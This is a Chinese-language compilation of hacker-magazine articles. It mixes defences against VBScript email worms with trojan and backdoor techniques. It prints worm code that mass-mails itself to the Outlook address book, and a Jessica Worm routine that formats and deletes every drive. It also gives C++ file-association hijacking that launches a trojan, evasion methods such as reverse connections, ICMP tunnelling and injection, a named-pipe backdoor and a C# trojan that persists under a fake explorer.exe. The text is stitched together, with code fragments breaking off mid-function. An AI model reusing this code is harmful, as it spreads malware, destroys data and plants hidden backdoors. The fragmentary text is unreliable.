由于电子邮件型病毒多数是用 VBScript 脚本语言编写的，而 VBScript 代码是通过 Windows Script Host 来解释执行的，因此将 Windows Script Host 删除，就再也不用担心这些用 VBS 和 JS 编写的病毒了！从另一个角度来说，Windows Script Host 本来是被系统管理员用来配置桌面环境和系统服务，实现最小化管理的一个手段，但对于大部分一般用户而言，WSH 并没有多大用处，所以最好禁止 WSH，也就是禁止 VBScript (JScript) 文件的运行环境。如果在企业环境中，系统管理员禁止那些不需要 VBScript (JScript) 的客户机，甚至比一台台地安装防病毒软件更加简单有效。禁止了 WSH 后，可以防止大部分邮件型病毒的发作。

禁止 VBScript (JScript) 文件执行的几个办法：

- 在“我的电脑”→“工具”→“文件夹选项”对话框中，点击“文件类型”，删除 VBS、VBE、JS、JSE 文件后缀名与应用程序的映射。
- 在 Windows 目录中，找到 WScript.exe 和 JScript.exe，更改其名称或者干脆删除。
- 在 Windows 98 中（NT4.0 以上同理），打开“控制面板”，打开“添加/删除程序”，点选“Windows 安装程序”，再鼠标双击其中的“附件”一项，然后再在打开的窗口中将“Windows Scripting Host”一项的“√”去掉，然后点“确定”，再点“确定”，这样就可以将 Windows Scripting Host 卸载。

另外，为了防止可能包含在 Outlook 邮件中出现的宏病毒的发作，请选择菜单“工具”→“宏”→“安全性”，然后将安全级别设置为“高安全性”。

### 2. 防止病毒发作后“复制”

通过 Outlook 传播的病毒基本上都是由 VBScript 编写的，其自我复制的原理基本上是利用程序将本身的脚本内容复制一份到一个临时文件，然后再在传播的环节将其作为附件发送出去。其间离不开 FileSystemObject。VBScript (JScript) 中的磁盘文件和目录操作几乎都是通过 FileSystemObject 类来实现的，而对于绝大多数一般用户来说，FileSystemObject 也没有什么太大的作用，所以可以从注册表中删除或更名 FileSystemObject 类，使得病毒代码无法创建对象，从而可以有效防止病毒复制自身。

我们还是举个实例来看看脚本是怎么样完成这个功能的：

```vb
Set so=CreateObject("Scripting.FileSystemObject")
so.GetFile(WScript.ScriptFullName).Copy("C:\dateiname.vbs")
```

就是这么两行就可以将自身复制到 C 盘根目录下 dateiname.vbs 这个文件。第一行是创建一个文件系统对象，第二行前面是打开这个脚本文件，WScript.ScriptFullName 指明是这个程序本身，是一个完整的路径文件名。GetFile 函数获得这个文件，Copy 函数将这个文件复制到 C 盘根目录下的 dateiname.vbs 文件。这就是大多数利用 VBScript 编写的病毒的一个特点。从这里可以看出，禁止了 FileSystemObject 这个对象，就可以很有效控制这种病毒的传播。

禁止使用 FileSystemObject 对象，可以使用以下 3 种方法：

- 修改注册表，将 FileSystemObject 改成一个任意的名字，只有知道该名字的用户才可以创建该对象：
  `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0D43FE01-F093-11CF-8940-00A0C9054228}\ProgID`
  默认值改为任意名称，原值为 `"Scripting.FileSystemObject"`。
- 运行 `Regsvr32 scrrun.dll /u`，所有用户无法创建 FileSystemObject。
- 运行 `cacls %systemroot%\system32\scrrun.dll /d guests`，匿名用户（包括 IUSR_Machinename 用户）无法使用 FileSystemObject。我们可以对 ASP 文件或者脚本文件设置 NTFS 权限，通过验证的非 Guests 组用户可以使用 FileSystemObject。

在企业环境中，系统管理员可以编制一个自动执行上述操作的 VBScript (JScript) 程序，来完成在所有客户机上快速配置（其实，这才是 Microsoft 开发 WSH 的本意）。

### 3. 防止病毒发作后“传播”

病毒需要传播，电子邮件病毒的传播无疑是通过电子邮件传播的。对于 Outlook 来说，地址簿的功能相当不错，可是也给病毒的传播打开了方便之门。几乎所有通过 Outlook 传播的电子邮件病毒都是向地址簿中存储的电子邮件地址发送内容相同的脚本附件完成的。看看如下的代码：

```vb
Set objOA = Wscript.CreateObject("Outlook.Application")  ' 创建一个 OUTLOOK 应用的对象
Set objMapi = objOA.GetNameSpace("MAPI")  ' 取得 MAPI 命名空间
For i = 1 to objMapi.AddressLists.Count  ' 遍历地址簿
    Set objAddList = objMapi.AddressLists(i)
    For j = 1 to objAddList.AddressEntries.Count
        Set objMail = objOA.CreateItem(0)
        objMail.Recipients.Add(objAddList.AddressEntries(j)) ' 取得收件人邮件地址
        objMail.Subject = "你好！"  ' 设置邮件主题
        objMail.Body = "这次给你的附件是我的新文章！"  ' 设置信件内容
        objMail.Attachments.Add("c:\virus.vbs")  ' 把自己作为附件扩散出去
        objMail.Send  ' 发送邮件
    Next
Next
Set objMapi = Nothing  ' 清空 objMapi 变量，释放资源
Set objOA = Nothing  ' 清空 objOA 变量
```

这一小段代码的功能是向地址簿中的用户发送电子邮件，并将自己作为附件扩散出去。电子邮件型病毒就是这样进行传播的。

另外，病毒代码发邮件一般采取两种办法：一是利用 Windows 自带的 CDO（Collaboration Data Object）或通过 OOM（Outlook Object Model）来发送。用 CDO 来发送邮件的时候，必须要有 Microsoft SMTP 服务器；如果机器上没有安装 SMTP 服务器，病毒就不能发送邮件。

**注意：** Windows 9x 系统上不能安装 SMTP 服务器，Windows 2000 Professional 默认不安装此服务，而 Windows 2000 Server 与 Advanced Server 默认情况下是安装此服务的。

- 如果机器已安装了 SMTP 服务器，可以通过给 SMTP 服务器加入安全验证，以避免病毒代码利用 CDO 来匿名发送邮件，详细信息及相关配置可参见 Windows 2000 SMTP Server 文档。
- 要阻止病毒利用 Outlook 来发送邮件，可以利用 Outlook 的“邮件传递推迟”特性。这个特性可以让用户在撰写一个邮件并点击“发送”按钮后，邮件并不会马上提交给 MTA（邮件传输代理）来传输，而只是暂时保存在用户的“发件箱”文件夹中，待指定的时间过后，再进行真正的邮件发送。

这个特性是通过 Outlook 的“规则”来实现的。成功地设置了这样的规则后，如果你不小心打开并执行了 Homepage 这样的病毒代码，在一阵硬盘狂响之后，你马上就会注意到你的“发件箱”文件夹中有大量待发邮件突然出现，你应该立即删除这些邮件并清空“已删除邮件”文件夹，就可以保证病毒不会从你这儿传播出去。

设置步骤如下：打开 Outlook，点击“工具”→“规则向导”菜单；“新建”一个规则，选择“发送邮件后检查”，选择“传递推迟若干分钟”，输入分钟数；保存并应用。目前版本的 Outlook Express 尚不支持此规则。

### 4. 防止病毒发作后搞“破坏”

蠕虫病毒的破坏性非常强。我们以著名的蠕虫病毒 Jessica Worm 中的部分破坏代码为例来加以分析说明：

```vb
sub kill()
    On Error Resume Next
    Set fs=CreateObject("Scripting.FileSystemObject")
    Set auto=fs.CreateTextFile("c:\Autoexec.bat", True) ' 建立或修改自动批处理
    auto.WriteLine("@echo off") ' 屏蔽掉删除的进程
    auto.WriteLine("smartdrv") ' 加载磁盘缓冲
    Set disc=fs.Drives
    For Each ds in disc
        If ds.DriveType<>2 Then
            ss=ss & ds.DriveLetter
        End If
    Next
    ss=LCase(StrReverse(Trim(ss)))
    For i=1 to Len(ss)
        x=Mid(ss,i,1)
        auto.WriteLine("format /autotest /q /u " & x & ":") ' 格式化驱动器
    next
    For i=1 to Len(ss)
        x=Mid(ss,i,1)
        auto.WriteLine("deltree /y " & x & ":") ' Deltree 双保险
    next
    auto.Close
    set dir=fs.GetFile("c:\Autoexec.bat")
    dir.attributes=dir.attributes-2 ' 将自动批处理文件改为隐藏
End sub
```

电子邮件型病毒通常通过调用系统已经编译好的带有破坏性的程序来实现破坏功能。那么我们可以把本地带有破坏性的程序改名，比如把 format.com 改成 fmt.com，这样病毒就无法直接调用。

### 5. 通用防范规则

- 在收发邮件时，打开防火墙和杀毒软件。
- 轻易不要暴露自己的信箱地址，注意网上言行。
- 发现不明来源邮件应谨慎，遇到可执行文件（.EXE, .COM）或带宏的附件（.DOC 等），不要直接打开，先“另存为”并用杀毒软件查杀。
- 如非必要，尽量关闭邮件“预览”特性，防止病毒代码在预览时自动执行。
- 设定邮件路径在 C 盘以外，降低受攻击风险。
- 收到新邮件尽量使用“另存为”做备份，方便管理且更安全。
- 不要隐藏系统已知文件类型的扩展名。Windows 默认隐藏扩展名，这会让病毒有机可乘。建议在文件夹选项中取消“隐藏已知文件类型的扩展名”。此外，针对 .SHS 文件，建议删除注册表 `HKEY_CLASSES_ROOT\ShellScrap` 下的 `NeverShowExt` 键值。
- 将系统的网络连接安全级别至少设置为“中等”。在 Internet 选项中，可以将“ActiveX 控件及插件”设为禁用。
- 如果可能，使用非 Outlook 的第三方邮件客户端；注意为浏览器打补丁；在浏览器中禁止 Java 或 ActiveX 运行。
- 在“通讯簿”中不要设置太多名单。发新邮件时可以利用回复功能或从文本文件中手动复制粘贴地址，这样可以有效防止病毒通过通讯簿自动扩散。

### 6. 关于 WSH 的小知识

Windows Scripting Host (WSH) 最早出现于 Windows 98。它类似于 MS-DOS 下的批处理命令，但功能远比批处理强大。微软研发 WSH 是为了实现多类脚本文件在 Windows 界面或 DOS 提示符下的直接运行。WSH 架构于 ActiveX 之上，充当脚本引擎控制器。

当你双击一个 .vbs 或 .js 文件时，系统会自动调用 Wscript.exe（命令行下为 Cscript.exe）进行解释执行。WSH 会根据后缀名到注册表中查询对应的解释引擎，然后逐行执行。不管使用何种语言，只要有对应的解释引擎，就可以在 WSH 下执行并使用 WSH 提供的服务。

WSH 在很大程度上考虑到了“非交互性脚本”的需要，可以完成映射网络驱动器、修改环境变量、处理注册表等复杂工作。

WSH 共有 14 个内置对象，分工明确：
- **Wscript**: 提取命令行变量、确定文件名、创建 COM 对象等。
- **WshNetwork**: 开放或关闭网络共享、连接打印机、获取用户信息。
- **WshShell**: 负责程序本地运行、处理注册表、创建快捷方式、处理环境变量。
- **WshShortcut / WshURLShortcut**: 创建本地或互联网资源的快捷方式。
- **WshEnvironment**: 获取系统环境变量。

在 HTML 或 ASP 页面之外独立存在的脚本文件，通常都由 WSH 处理。使用 WSH 的第一步通常是建立一个对象，然后利用其方法和属性。常用对象包括：
1. **WScript.Network**: 用来与网络沟通，取得 IP 地址、网上邻居列表等。
2. **WScript.Shell**: 与操作系统沟通，建立快捷方式、操作注册表。
3. **Excel.Application**: 与 Excel 沟通，存取数据或显示图表。

```cpp
REG_SZ, (LPCTSTR)str1, strlen(str1) + 1);

// 在执行原有程序之前必须把注册表恢复，否则用
// ShellExecute 还是执行我们的木马程序。
ShellExecute(NULL, "open", temp, NULL, NULL, SW_SHOW); // 执行原有的程序
}

// 在程序执行完成后，再把注册表改为我们要启动的木马程序的
TCHAR str2[256];
// 得到程序全路径名
GetModuleFileName(NULL, str2, 255);
strcat(str2, " \"%1\" %*");
::RegSetValue(HKEY_CLASSES_ROOT,
    "exefile\\shell\\open\\command",
    REG_SZ, (LPCTSTR)str2, strlen(str2) + 1);

// 经过上述过程，只要程序一运行，就会执行我们的 start 程序了。
// 即使是在安全模式下，只要执行可执行程序，就会运行我们的程序了。
```

```cpp
for(int i=0; i<length; i++)
{
    ch = str.GetAt(i);
    if(ch == '\\')
        temp = temp + "\\\\";
    else
        temp = temp + ch;
}

temp = temp.Left(temp.GetLength() - 2);
temp = temp.Mid(1); // 上面的函数是把字符串中的“\”变为“\\”
char str1[] = "\"%1\" %*";

// 在执行原有程序之前必须把注册表恢复，否则用
// ShellExecute 还是执行我们的木马程序。
ShellExecute(NULL, "open", "notepad.exe", temp,
    NULL, SW_SHOW); // 执行原有的程序
}

// 在程序执行完成后，再把注册表改为我们要启动的木马程序的
TCHAR str2[256];
// 得到程序全路径名
GetModuleFileName(NULL, str2, 255);
strcat(str2, " \"%1\" %*");
::RegSetValue(HKEY_CLASSES_ROOT,
    "txtfile\\shell\\open\\command",
    REG_SZ, (LPCTSTR)str2, strlen(str2) + 1);

// 经过上述过程，只要程序一运行，就会执行我们的 start 程序了。
```

同样的，我们也可以将其他文件进行关联，例如将文本文件进行关联，在 `CStartDlg::OnInitDialog()` 中重新加入如下代码：

```cpp
CString str;
str.Format("%s", AfxGetApp()->m_lpCmdLine); // 取得传入的命令行参数
const char *MutexObject = "MyStart"; // 建立互斥对象
HANDLE hMutex = NULL;
hMutex = ::CreateMutex(FALSE, FALSE, MutexObject);
if(hMutex != NULL)
{
    DWORD err = GetLastError();
    if(err == ERROR_ALREADY_EXISTS)
        PostQuitMessage(0); // 如果发现同一程序已经运行，则退出
}

if(str.Find("txt") != -1)
{
    CString temp;
    char ch;
    int length = str.GetLength();
```

当然了这些程序在自己的机器上运行后还是要恢复的。下面的函数就可以帮助进行恢复了：

```cpp
char str2[] = "NOTEPAD.EXE %1";
::RegSetValue(HKEY_CLASSES_ROOT,
    "txtfile\\shell\\open\\command",
    REG_SZ, (LPCTSTR)str2, strlen(str2) + 1);
char str1[] = "\"%1\" %*";
::RegSetValue(HKEY_CLASSES_ROOT,
    "exefile\\shell\\open\\command",
    REG_SZ, (LPCTSTR)str1, strlen(str1) + 1);
```

需要说明一点：这个程序在 Windows 98 下运行比较正常，在 Windows 2000 下无法打开桌面上的文件夹。

## 木马，是如何隐藏通讯方式的解析

文／清风芙

木马的客户端与服务端的通讯必须可靠且不易为宿主发现，这个过程实现的好坏与否，直接关系着木马的隐蔽性和可靠性。为此，木马开发者们绞尽脑汁，想出种种办法来迷惑我们，而作为普通用户的我们更有必要了解木马的这些隐藏通讯方式，以便在查杀木马时做到有的放矢，找准切入点。下面是我所知道的木马客户端与服务端隐藏通讯的种种方法，与大家交流。

首先应该明确的是，受害者的机器上运行的木马程序我们称之为服务端，控制者机器上运行的我们称之为客户端（其实对于现代的木马，已经很难说谁是客户，谁是服务了，不过我们还是继续用这种叫法）。另外，虽然 Windows 9x 仍然有巨大的用户基础，但是 Windows 9x 向 Windows XP 过渡只是时间问题，所以这里的讨论主要是针对 Windows NT/2000/XP 平台的。

## 一、基本概念

木马程序的服务器端，为了避免被发现，多数都要进行隐藏处理，下面让我们来看看木马是如何实现隐藏的。首先我们先来了解 3 个相关的概念：进程、线程和服务。关于这 3 个概念简单解释如下：

- **进程：** 所谓进程就是应用程序的执行实例（或者称是一个执行程序）。一个正常的 Windows 应用程序运行之后，都会在系统之中产生一个进程。同时，每个进程分别对应一个不同的 PID（Process ID，进程标识符），这个进程会被系统分配一个虚拟的内存空间地址段，一切相关的程序操作，都会在这个虚拟的空间中进行。进程与我们经常说到的程序是有着本质的区别。进程是程序动态的描述，而程序是静态的描述。举个例子，从网上下载一个 .exe 文件到硬盘上，那个 .exe 文件就叫做程序，这是一个二进制码的文件。一旦双击了 exe 文件图标运行程序，那个正在运行着的 exe 文件则称为进程，它在双击的那一刻被系统创建，当你关机或者在任务栏的图标上单击鼠标右键选“退出”时，进程便消亡，彻底结束了生命。进程经历了由“创建”到“消亡”的生命周期，而程序自始至终安在你的硬盘上，不管你的机器是否启动。

- **线程：** 线程是进程中的一个执行单元，同一个进程中的每个线程对应于一组 CPU 指令、一组 CPU 寄存器以及一堆栈。一个进程，可以存在一个或多个线程，线程之间同步执行多种操作；一般说来，线程之间是相互独立的，当一个线程发生错误的时候，并不一定会导致整个进程的崩溃。

- **服务：** 一个进程当以服务的方式工作的时候，它将会在后台工作，不会出现在任务列表中。但是，在 Windows NT/2000 下，你仍然可以通过服务管理器检查任何的服务程序是否被自动运行。

想要隐藏木马的服务器端，可以伪隐藏，也可以是真隐藏。伪隐藏，就是指程序的进程仍然存在，只不过是让它消失在进程列表里。真隐藏则是让程序彻底消失，不以一个进程或者服务的方式工作。

伪隐藏的方法是比较容易实现的，只要把木马服务器端的程序注册为一个服务就可以了。这样，程序就会从任务列表中消失了，因为系统不认为它是一个进程，当按下 Ctrl+Alt+Delete 的时候，也就看不到这个程序了。但是，这种方法只适用于 Windows 9x 系统，对于 Windows NT/2000 等，通过服务管理器，一样会发现你在系统中注册过的服务。

难道伪隐藏的方法就真的不能用在 Windows NT/2000 下了吗？当然还有办法，那就是 API 的拦截技术，通过建立一个后台的系统钩子，拦截 PSAPI 的 `EnumProcessModules` 等相关的函数来实现对进程和服务的遍历调用的控制，当检测到进程 ID（PID）为木马程序的服务器端进程的时候直接跳过，这样就实现了进程的隐藏。金山词霸等软件，就是使用了类似的方法，拦截了 `TextOutA`，`TextOutW` 函数，来截获屏幕输出，实现即时翻译的。同样，这种方法也可以用在进程隐藏上。

当进程为真隐藏的时候，那么，这个木马的服务器部分程序运行之后，就不应该具备一般进程，也不应该具备服务，也就是说，完全融进了系统的内核。也许你会觉得奇怪，刚刚不是说一个应用程序运行之后，一定会产生一个进程吗？的确，所以我们可以不把它做成一个应用程序，而把它做为一个线程，一个其他应用程序的线程，把自身注入其他应用程序的地址空间。而这个应用程序对于系统来说，是一个绝对安全的程序，这样，就达到了彻底隐藏的效果，导致了查杀黑客程序难度的增加。

## 二、具体方法

下面是木马客户端与服务端经常采用的隐藏通讯方法：

### 1. 使用 TCP 协议，服务端侦听，客户端连接

这是最简单、最早、最广泛使用的一种通讯方案。使用过冰河或者被冰河客户端扫过的用户对此一定不会陌生。这种通讯方案是服务端在宿主机器上开一个 TCP 端口，然后等待客户端的连接，在通过对客户端的认证后，客户端就可以控制服务端了。采用这种方法通常是利用 Winsock 与目标机的指定端口建立起连接，使用 `send` 和 `recv` 等 API 进行数据的传递。

由于是建立在 TCP 协议基础上，所以通讯的可靠性是得到保证的，但是通讯的安全性却很成问题。由于这种方法的隐藏性比较差，往往容易被一些工具软件查看到，最简单的，比如在命令行状态下使用 `netstat` 命令，就可以查看到当前的活动 TCP、UDP 连接。另外，使用像 Fport，Tcpview Pro 这样的工具可以很容易地发现在哪一端口上侦听的进程以及进程对应的可执行文件。

尽管存在这么多的问题，黑客们还是对此方法趋之若鹜。因为采用该方法编制木马程序实在是太简单了，而且还可以采用种种手段躲避这种侦察。就我所知的方法大概有两种。一种是合并端口法。也就是说，使用特殊的手段，在一个端口上同时绑定两个 TCP 或者 UDP 连接。这听起来不可思议，但事实上确实如此；而且已经出现了使用类似方法的程序，通过把自己的木马端口绑定于特定的服务端口之上（比如 80 端口的 HTTP），从而达到隐藏端口的目的。还有一种方法是使用 ICMP（Internet Control Message Protocol）协议进行数据的发送，原理是修改 ICMP 头的构造，加入木马的控制字段。这样的木马，具备不占用端口的特点，使用户难以发觉。同时，使用 ICMP 可以穿透一些防火墙，从而增加了防范的难度。之所以具有这种特点，是因为 ICMP 不同于 TCP、UDP，ICMP 工作于网络层，不使用传输层端口。

### 2. 使用 TCP 协议，客户端侦听，服务端连接

这就是所谓的反向连接技术了。为了克服服务端在某一端口上侦听易被发现这一缺点，现在服务端不再侦听端口，而是去连接客户端在侦听的某一端口。这样用一般的 Port Scanner 或者 Fport 就很难发现服务端了。而为了更好地麻痹宿主机，客户端侦听的端口一般是 21、80、23 这种任何人都要访问的端口。虽然在安装了防火墙的机器上，服务端去连接客户端还是要引起防火墙报警，但是一个粗心的用户很可能会忽略“应用程序 xxxxx 试图访问 xxx.xxx.xxx.xxx 通过端口 80”这样的警告。

这种反向连接技术要解决的一个问题是，服务端如何找到客户端。由于一般客户端都是拨号上网的，没有一个固定的 IP，所以客户端 IP 不可能硬编码在服务端程序中。当然，由于拨号上网用户的 IP 一般都是处于一个固定的 IP 地址范围内，服务端也可以扫描这个范围，然后根据被扫描主机的反馈来确定是否是自己的客户端。另一个方法是客户端通过一个有固定 IP 或者固定域名的第三方发布自己的 IP，实现的方法就很多了，比如通过一个公共的邮箱，通过一个个人主页。

### 3. 使用 UDP 协议

方法和安全性与使用 TCP 协议差不多。需要注意的是 UDP 不是一个可靠的协议（QQ 用的就是 UDP 协议），所以，要想不被发现，黑客必须在 UDP 协议的基础上设计一个自己的可靠的报文传递协议，这就看其编程的功力如何了。

### 4. 解决防火墙问题

无论是服务端被动侦听，还是服务端主动连接，在服务端和客户端试图建立连接时都会引起防火墙的报警。一种方法是代码注入，服务端将自己注入到一个可以合法地与外界进行网络通讯的进程（比如 IE，ICQ，OICQ，TELNETD，FTPD，IIS 等）的地址空间中，然后可以一个新线程的形式运行，或者只是修改宿主进程，截获宿主进程的网络系统调用（WinSock）。

无论哪种情况都不会引起防火墙的报警。但要注意的是如果是被动侦听的话，比如寄生在 IE 内，用 Fport 会发现 IE 在某一个端口侦听，这有可能会引起细心的用户的警觉。所以比较好的方法是在新线程内去主动连接客户端，而且连的是客户端的 80 端口；如果是寄生在 OICQ 内，可以连接客户端的 8000 端口。使用代码注入需要服务端具有若干特权，考虑到一般用户都是以 Admin 身份启动 NT 的，这应该不是一个问题。

### 5. 服务端主动连接时客户端 IP 的问题

使用第三方公布客户端 IP 不是一种可靠的方法。更好的方法是客户端通过某种方法主动告诉服务端自己的 IP 和端口，然后服务端来连接。这样可以保证最大的可靠性，安全性和灵活性。

服务端怎么收到客户端的通知呢？一种方法是我们截获其他进程收到的 TCP 数据或者 UDP 包，然后分析截获的数据，从中确定是否客户端发来了一个报告其 IP 的数据片断。另一种方法是使用 RAW Socket 来收听 ECHO REPLY 类型的 ICMP 包，在 ICMP 数据包的数据里就包含了客户端 IP。

### 6. 用 ICMP 来通讯

既然客户端可以通过发一个 ICMP（ECHO REPLY）来告诉服务端它的 IP，那为什么不把所有服务端和客户端的通讯都建立在 ICMP 的基础上呢？服务端向客户端发 ICMP（ECHO REQUEST），客户端向服务端发 ICMP（ECHO REPLY），然后可以在 ICMP 基础上建立一个自己的可靠数据包通讯协议。由于一般的用户这两类 ICMP 包都是设为无警告放行的，因而隐秘性很强。

### 7. 用自定义的协议来通讯

我们知道 IP 头的协议字段指定了这个 IP 包承载的数据的协议，比如 TCP，UDP，ICMP 等。我们完全可以把这个字段设为我们自己定义的值（>80），定义自己的通讯协议。不过，估计这种 IP 包将会被所有的防火墙过滤掉。

通讯隐藏技术只是木马隐藏诸多技术中的一部分，但也是最重要的一部分。因为它不但要保护木马，还要保护木马的控制者，不管是木马编写者还是防范者，都应该对此给予足够的重视。

### Windows 2000 下三无后门的实现解析

文/eyas

> **编者按：** 众所周知，一般系统后门及木马程序，在 Windows 2000 任务管理器的进程表中多数会留下可疑的蛛丝马迹，然而一种“无进程、无 DLL 和无端口”的后门则很有瞒天过海的本事，可谓是比较高明的网络“隐形杀手”。那么，这种技术是如何实现的呢？本文将为你详解其中奥秘。

何谓三无后门——即无进程、无 DLL、无端口。无进程采用 `CreateRemoteThread` 技术；无 DLL 采用代码动态加载到目标进程内存空间技术；无端口采用命名管道技术。这些并没有什么新鲜的东西；网上已经有不少关于这些技术的资料。但等到自己动手写起类似功能的代码来，才会发现问题多多。在此过程中，我大量参考了西祠(www.xici.net)的 shotgun、nongmin.cn、antghazi、bingle 发布的代码、资料，对他们的共享精神致以崇高的敬意。

下面我们切入正题，先来看看用命名管道实现无端口后门的核心过程。

### 1. 调用 CreateNamedPipe API 创建命名管道句柄

```cpp
HANDLE hPipe = CreateNamedPipe(Pipe_Name,
    PIPE_ACCESS_DUPLEX,
    PIPE_TYPE_BYTE | PIPE_READMODE_BYTE | PIPE_WAIT,
    1, 0, 0, 5000, &sa);
```

第一个参数是命名管道名称，格式为 `\\.\pipe\AnyName`。第二个参数是命名管道的打开模式，`PIPE_ACCESS_DUPLEX` 表示此管道是双向式管道，服务器和客户机进程都能在管道上读写数据。第三个参数是命名管道的读写模式。第四个参数指定一个命名管道最多可创建多少个实例。特别要注意的是最后一个参数，这个参数的作用是为命名管道指定一个安全描述符。将此参数设为 NULL 的话，命名管道便会得到一个默认的安全描述符。默认的安全描述符允许命名管道拥有与创建它的进程相同的安全限制以及访问控制。

现在，我简单介绍一下客户端连接远程服务器的命名管道的过程。因为任何进程连接命名管道的时候，都要先经过权限检查，所以，当连接远程服务器的命名管道的时候，需要先用任何一个可用账号（如 guest，但空连接不行）与远程服务器建立 IPC 连接，然后服务器端会把此账号与创建此命名管道时设定的安全描述符进行权限检查，权限检查通过后，才可以使用此命名管道来进行数据传输。

显然，创建命名管道的时候采用默认的安全描述符并不是我们所期望的，因为后门程序通常都是以 Administrator 或者更高的权限来运行，而我们去连接这个命名管道的时候，通常都希望以很低权限的账号去连接，获得最高权限。所以，我们需要给此命名管道的安全描述符分配一个空的授权访问控制列表(DACL)，这样，所有用户都可以访问此命名管道了。相关代码如下：

```cpp
SECURITY_ATTRIBUTES sa;
SECURITY_DESCRIPTOR sd;
InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
```

```csharp
// 函数 File.Move(string sourceFileName, string destFileName) 起移动文件的作用
// sourceFileName 为要移动的文件名，destFileName 为文件的新路径
File.Move("C:\\winnt\\system\\msdoss.exe", "d:\\winnt\\system32\\explorer.exe");
}
catch {}

// 将新移动木马程序设为自启动，分析和前面一样
try
{
    key1 = Local.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
    key1.SetValue("microsoftt", "d:\\winnt\\system32\\explorer.exe");
    key1.Close();
}
catch {}
```

```csharp
if(key1 == null)
{
    try
    {
        RegistryKey key2 = Local.CreateSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run");
        key1.SetValue("microsoftt", "d:\\winnt\\system32\\explorer.exe");
        key1.Close();
    }
    catch {}
}

// moveCC();
```

到这里，一个简单的 C# 的木马就完成了。如果有疑问，请到 www.vchelp.net 论坛的 C# 或 .NET 版面和我讨论，或发信给我 chenweijun_sh@etang.com。当然，你也可以和黑防联系。

## 利用WSH关闭WIN2000/NT的默认共享

最近在家里自学了一些 WSH 的脚本，发现它的功能实在是非常的强大。下面就介绍如何利用 WSH 编写一个脚本，关闭 Windows 2000/NT 的默认共享。

```vb
Dim o '定义变量
Set o = CreateObject("WScript.shell") '建立对象
Dim fso, dc
Set fso = CreateObject("Scripting.FileSystemObject")
'创建文件系统对象
Set dc = fso.Drives '获取所有驱动器盘符
For Each d in dc
    dim str
    o.run("net share " & d.driveletter & "$ /delete") '关闭所有驱动器的隐藏共享
next

o.run("net share admin$ /delete")
o.run("net share ipc$ /delete") '关闭admin$和ipc$管道共享
```

用记事本写好代码并保存为 stopshare.vbs 后，就来测试一下。先打开 cmd.exe，输入 net share 命令就可以看到我的机子上的共享。双击执行 stopshare.vbs 后，会看见几个一闪而过。然后再在 cmd 里输入 net share 命令，这时候没有发现共享列表了。

虽然这样可以关闭系统的默认共享，但是当系统重新启动后，这些共享又会被开放。那么，可以在注册表里创建一个键值，在系统启动时自动运行这个脚本。

代码如下：（把以下代码加到上面代码中去）

```vb
dim dirsystem
set dirsystem = fso.GetSpecialFolder(1) '取得系统根目录
set name = fso.GetFile(WScript.ScriptFullName) '取得本脚本文件名
if (fso.fileexists(dirsystem & "\\stopshare.vbs")) then
    '判断系统根目录是否存在stopshare.vbs
else
    name.Copy(dirsystem & "\\stopshare.vbs") '把这个脚本copy到系统根目录，文件名为stopshare.vbs
    o.RegWrite "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\stopshare", dirsystem & "\\stopshare.vbs" '写入注册表启动键值
end if
```

代码写好后，只需运行一次这个脚本，那么以后系统启动时就会自动删除系统的默认共享了。

其实，如果想关闭系统的共享，只需要停止 Server 服务就可以了。先停止 Server 服务，再把这个服务的属性改为手动就可以了。本文只是介绍一下 WSH 的一些用法，希望对想学脚本编程的同志有所启发。

### 用 C# 实现网段扫描解析

文／落叶夏日

想必大家对小榕时光等扫描器都非常熟悉了，有没有自己写一个的冲动？最近微软实施了 .NET 战略方案，C# 是主推语言，你们是否有兴趣用 C# 来实现对局域网 IP 地址的扫描，尝试一下自己写程序的快乐？那么请跟我来。

```csharp
IPHostEntry myHost = new IPHostEntry();
try
{
    // Dns.GetHostName() 获取本地计算机的主机名
    // Dns.GetHostByName() 获取指定 DNS 主机名的 DNS 信息
    // 得到本地主机的 DNS 信息
    myHost = Dns.GetHostByName(Dns.GetHostName());
    // 显示本地主机名
    textBox1.Text = myHost.HostName.ToString();
    // 显示本地主机的 IP 地址表
    for(int i=0; i<myHost.AddressList.Length; i++)
    {
        richTextBox1.AppendText("本地主机IP地址==>" + myHost.AddressList[i].ToString()+"\r");
    }
}
catch(Exception error)
{
    MessageBox.Show(error.Message);
}
```

### 一、使用的类

- **DNS 类**：在 .NET 中的 System.Net 命名空间下，主要的功能是从 Internet 域名系统（DNS）检索关于特定主机的信息。
- **IPHostEntry 类**：将一个域名系统（DNS）主机与一组别名和一组匹配的 IP 地址关联，与 DNS 类一起使用。
- **IPAddress 类**：IP 网络上的地址。使用的命名空间有：
  - System.Net 命名空间为当前网络上使用的多种协议提供了简单的编程接口；
  - System.IO 命名空间包含允许在数据流和文件上进行同步和异步读取及写入的类型；
  - System.Threading 命名空间主要是用于多线程编程。

### 二、编程工具的选择

用 C# 写程序的工具不是很多，最好当然是 VS.NET，它是微软针对 B/S 开发的解决方案，是用来和 JAVA 一争高下的工具。

准备工作：首先建立一个 C# 的 Windows 应用程序，并加上你要使用的控件。这些控件都是常用的，只需要将它们合理布局一下，构造好界面后，我们进入正题。执行如图 1 所示。

（图 1 略）

### 三、程序实现的功能

#### 1．获取本地主机 IP 地址

```csharp
// 对 Button 控件的事件的响应
private void button1_click(object sender, System.EventArgs e)
{
    // 代码实现如前所述
}
```

#### 2. 远程查询

```csharp
private void button2_click(object sender, System.EventArgs e)
{
    IPHostEntry myDnsToIP = new IPHostEntry();
    // Dns.Resolve 方法，将 DNS 主机名或点分隔的
    // 四部分表示法格式的 IP 地址解析为 IPHostEntry 实例
    myDnsToIP = Dns.Resolve(textBox2.Text.ToString());
    // 显示此域名的 IP 地址的列表
    for (int i = 0; i < myDnsToIP.AddressList.Length; i++)
    {
        richTextBox1.AppendText(textBox2.Text +
            " 的IP地址是 " + myDnsToIP.AddressList[i].ToString()
            + "\r\n");
    }

    // Windows Forms NumericUpDown 控件
    string strIPAddress = numericUpDown1.Text + "." +
        numericUpDown2.Text + "." + numericUpDown3.Text + ".";
    // 开始扫描地址
    int nStart = Int32.Parse(numericUpDown4.Text);
    // 终止扫描地址
    int nEnd = Int32.Parse(numericUpDown5.Text);
    // 扫描的操作
    for (int i = nStart; i <= nEnd; i++)
    {
        string strScanIPAdd = strIPAddress + i.ToString();
        // 转换成 IP 地址
